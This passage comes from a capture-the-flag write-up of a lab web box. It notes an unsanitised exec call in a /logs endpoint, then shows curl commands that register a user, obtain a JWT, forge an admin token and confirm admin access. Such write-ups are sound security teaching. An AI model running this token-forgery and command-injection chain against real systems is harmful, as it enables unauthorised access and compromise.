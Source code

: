 The `/logs` endpoint takes the filename and passes it to `exec` without sanitisation. This means that this is vulnerable to RCE.

### Token Spoof --> RCE

Now that we can spoof tokens and we found our RCE point, we can exploit this system. First, let's create a new user and then get the token:

```bash
$ curl -d '{"name":"testuser","email":"test@website.com","password":"password"}' -X POST http://10.129.71.62/api/user/register -H 'Content-Type: Application/json'
{"user":"testuser"} 
$ curl -d '{"email":"test@website.com","password":"password"}' -X POST http://10.129.71.62/api/user/login -H 'Content-Type: Application/json'
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2NDU3NDUyNDA1MjNjMDA0N2VhOWM4NTIiLCJuYW1lIjoidGVzdHVzZXIiLCJlbWFpbCI6InRlc3RAd2Vic2l0ZS5jb20iLCJpYXQiOjE2ODM0NDA5ODZ9.h4CGRgSSN4KLsv_mRpE93BLqwN93IpXMKDO6IDYtOI8 
```

Then, we can spoof the token using this website:

{% embed url="https://jwt.io/" %}

<figure><img src="../../../.gitbook/assets/image (455) (2) (1).png" alt=""><figcaption></figcaption></figure>

We can verify that this works by using the `/api/priv` endpoint:

```bash
$ curl 'http://10.129.71.62/api/priv' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2NDU3NDUyNDA1MjNjMDA0N2VhOWM4NTIiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRlc3RAd2Vic2l0ZS5jb20iLCJpYXQiOjE2ODM0NDA5ODZ9.88MSrMOiPfw7x7CzUNKPvNlUmVPMQ2S-ZtaQY-9PRuE'
{"creds":{"role":"admin","username":"theadmin","desc":"welcome back admin"}} 
```
